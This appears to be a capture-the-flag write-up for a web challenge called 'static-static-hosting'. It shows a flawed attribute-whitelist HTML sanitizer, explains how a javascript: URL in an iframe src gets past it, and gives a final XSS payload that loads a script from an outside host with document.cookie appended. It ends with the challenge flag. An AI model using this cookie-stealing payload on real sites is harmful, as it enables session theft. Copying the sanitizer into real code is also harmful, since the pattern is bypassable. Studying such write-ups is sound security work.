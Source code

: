 # static-static-hosting (222 solves)

Source: [script.js](./script.js)

```js
function sanitize(element) {
	const attributes = element.getAttributeNames();
	for (let i = 0; i < attributes.length; i++) {
		// Let people add images and styles
		if (!["src", "width", "height", "alt", "class"].includes(attributes[i])) {
			element.removeAttribute(attributes[i]);
		}
	}

	const children = element.children;
	for (let i = 0; i < children.length; i++) {
		if (children[i].nodeName === "SCRIPT") {
			element.removeChild(children[i]);
			i--;
		} else {
			sanitize(children[i]);
		}
	}
}
```

This time, the script sanitizes your input by removing all attributes except those on a whitelist and removing all script elements. However, we can still perform XSS by using a `javascript:` url as an iframe src.

Final Exploit:

```html
<iframe src="javascript:a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.documentElement.appendChild(a)"></iframe>
```

Flag: flag{wh0_n33d5_d0mpur1fy}
